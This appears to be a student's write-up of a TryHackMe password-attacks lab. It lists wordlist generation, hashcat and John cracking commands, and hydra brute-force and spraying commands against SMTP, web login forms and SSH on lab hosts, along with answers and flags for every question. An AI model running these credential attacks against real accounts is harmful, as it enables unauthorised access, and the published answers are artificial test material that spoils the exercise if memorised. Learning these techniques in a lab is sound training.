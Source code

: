 # Password Attacks - Hard

1. [Password Attacking Techniques](#password-attacking-techniques)
2. [Password Profiling - Default, Weak, Leaked, Combined and Username Wordlists](#password-profiling---default-weak-leaked-combined-and-username-wordlists)
3. [Password Profiling - Keyspace Technique and CUPP](#password-profiling---keyspace-technique-and-cupp)
4. [Offline Attacks - Dictionary and Brute-Force](#offline-attacks---dictionary-and-brute-force)
5. [Offline Attacks - Rule-Based](#offline-attacks---rule-based)
6. [Online Password Attacks](#online-password-attacks)
7. [Password Spray Attack](#password-spray-attack)

## Password Attacking Techniques

* Password cracking - for discovering passwords from encrypted/hashed data to plaintext data.

* Password guessing - guessing passwords for online protocols and services based on dictionaries.

```markdown
1. Which type of password attack is performed locally? - Password cracking
```

## Password Profiling - Default, Weak, Leaked, Combined and Username Wordlists

* Default passwords - Default passwords are set for products and services; we can [look](https://cirt.net/passwords) [it](https://default-password.info/) [up](https://datarecovery.com/rd/default-passwords/) and try.

* Weak passwords - weak passwords combined into wordlists such as SecLists

* Leaked passwords - part of sensitive data breached.

* Combined wordlists - combining multiple wordlists.

```shell
cat list1.txt list2.txt list3.txt > combined_list.txt

sort combined_list.txt | uniq -u > cleaned_list.txt
```

* Customized wordlists - creating custom password lists from target website.

```shell
cewl -w list.txt -d 5 -m 5 http://thm.labs
#crawl website using cewl and generate wordlist
#-m 5 gathers words with 5 or more chars
#-d 5 is depth level

cewl -w thm_pwd_list.txt -d 5 -m 8 https://clinic.thmredteam.com
```

* Username wordlists - generate username lists from target website; we can use tools such as username_generator.

```markdown
1. What is the Juniper Networks ISG 2000 default password? - netscreen:netscreen
```

## Password Profiling - Keyspace Technique and CUPP

* Keyspace technique - specifying a range of characters, numbers and symbols in wordlist.

```shell
crunch -h
#tool for creating offline wordlists

crunch 2 2 01234abcd -o crunch.txt
#all possible combinations of 2 characters
#2 letters minimum and maximum

crunch 6 6 -t pass%%
#password starts with 'pass'
#followed by two numbers
#-t for charsets
```

* CUPP (Common User Passwords Profiler) - for custom wordlists based on information related to target.

```markdown
1. Run the following crunch command:crunch 2 2 01234abcd -o crunch.txt. How many words did crunch generate? - 81

2. What is the crunch command to generate a list containing THM@! and output to a filed named tryhackme.txt? - crunch 5 5 -t "THM^^" -o tryhackme.txt
```

## Offline Attacks - Dictionary and Brute-Force

* Dictionary attack - to guess passwords using well-known words/phrases.

* Brute-force attack - to guess victim's password by sending standard password combos; this does not use a wordlist.

```shell
hashcat -a 0 -m 100 "8d6e34f987851aa599257d3831a1af040886842f" /usr/share/wordlists/rockyou.txt

hashcat -a 3 -m 0 "e48e13207341b6bffb7fb1622282247b" "?d?d?d?d"
```

```markdown
1. Considering the following hash: 8d6e34f987851aa599257d3831a1af040886842f. What is the hash type? - SHA-1

2. Perform a dictionary attack against the following hash: 8d6e34f987851aa599257d3831a1af040886842f. What is the cracked value? Use rockyou.txt wordlist. - sunshine

3. Perform a brute-force attack against the following MD5 hash: e48e13207341b6bffb7fb1622282247b. What is the cracked value? Note the password is a 4 digit number: [0-9][0-9][0-9][0-9] - 1337
```

## Offline Attacks - Rule-Based

* Rule-based attacks (Hybrid attacks) - rules are applied to create passwords within password policy guidelines; manipulating or mangling a password.

```shell
john --wordlist=single-pwd.txt --rules=KoreLogic --stdout | wc -l
#using prebuilt rules
#we can also add custom rules
```

```markdown
1. What would the syntax you would use to create a rule to produce the following: "S[Word]NN  where N is Number and S is a symbol of !@? - Az"[0-9][0-9]" ^[!@]
```

## Online Password Attacks

```shell
cewl -w thm_pwd_list.txt -d 5 -m 8 https://clinic.thmredteam.com
#create custom wordlist

#ftp has anonymous mode
ftp 10.10.44.215
#we can use that to get flag

#to add custom rule to jtr
sudo vim /etc/john/john.conf
#add custom rule

john --wordlist=thm_pwd_list.txt --rules=THM-Password --stdout > custom_thm_pwd_list.txt
#generate custom wordlist

hydra -l pittman@clinic.thmredteam.com -P custom_thm_pwd_list.txt smtp://10.10.44.215 -s 25
#attacking smtp

hydra -l phillips -P thm_pwd_list.txt 10.10.44.215 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php"
#attacking http-get-form
#gives password Paracetamol

john --wordlist=thm_pwd_list.txt --rules=Single-Extra --stdout > custom_thm_pwd_list.txt
#create custom wordlist again

hydra -l burgess -P custom_thm_pwd_list.txt 10.10.44.215 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php"
#attacking http-post-form
#gives password OxytocinnicotyxO
```

```markdown
1. Can you guess the FTP credentials without brute-forcing? What is the flag? - THM{d0abe799f25738ad739c20301aed357b}

2. What is the password? Note that the password format is as follows: [symbol][dictionary word][0-9][0-9]. - !multidisciplinary00

3. Perform a brute-forcing attack against the phillips account for the login page at http://MACHINE_IP/login-get using hydra? What is the flag? - THM{33c5d4954da881814420f3ba39772644}

4. Perform a rule-based password attack to gain access to the burgess account. Find the flag at the following website: http://MACHINE_IP/login-post/. What is the flag? - THM{f8e3750cc0ccbb863f2706a3b2933227}
```

## Password Spray Attack

* Password Spraying - targets many usernames using one common weak password, to avoid an account lockout policy.

* Common, weak passwords follow patterns and formats; we might have to add rule-based passwords as well.

```shell
#for ssh
hydra -L usernames-list.txt -p Spring2021 ssh://10.1.1.10

#for rdp
#we can use tool RDPassSpray
python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026
#we can use -d for domain in AD environment

#for ssh password spraying
#we have been given usernames list
#we need to spray different passwords according to hint
#we can create passwords list based on hint
hydra -L usernames-list.txt -P passwords-list.txt ssh://10.10.44.215
#this gives creds burgess:Fall2021@
#log into ssh to get flag
```

```markdown
1. Perform a password spraying attack to get access to the SSH://MACHINE_IP server to read /etc/flag. What is the flag? - THM{a97a26e86d09388bbea148f4b870277d}
```
